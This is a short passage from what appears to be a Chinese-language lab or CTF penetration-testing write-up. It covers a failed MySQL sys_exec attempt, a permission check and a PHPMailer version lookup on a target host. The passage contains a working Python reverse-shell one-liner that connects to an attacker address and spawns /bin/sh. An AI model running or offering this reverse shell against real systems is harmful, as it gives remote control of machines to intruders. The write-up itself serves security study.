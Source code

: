 ```
ERROR 1305 (42000): FUNCTION sys_exec does not exist  

select VERSION();   查看mysql版本
5.5.60-0+deb8u1
```
搜索了一下，发现sys_exec()，提示该函数不存在的原因：`sys_exec` is not a standard mysql function. It's provided by an external UDF plugin, and must be installed separately

sys_exec不是标准的函数，udf插件需要单独安装。

这种方式看来是行不通了。

---
#### 检查rwx权限

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.2.128',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);" > debianbts.py
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/9.PNG)

检查一下权限错误，虽然有rwx，但是是shared obj，不能插入命令。

---

#### PHPMailer命令执行
192.168.2.134/vendor/changelog.md
得到：Version 5.2.17 (December 9th 2016)

PHPMailer 6.0
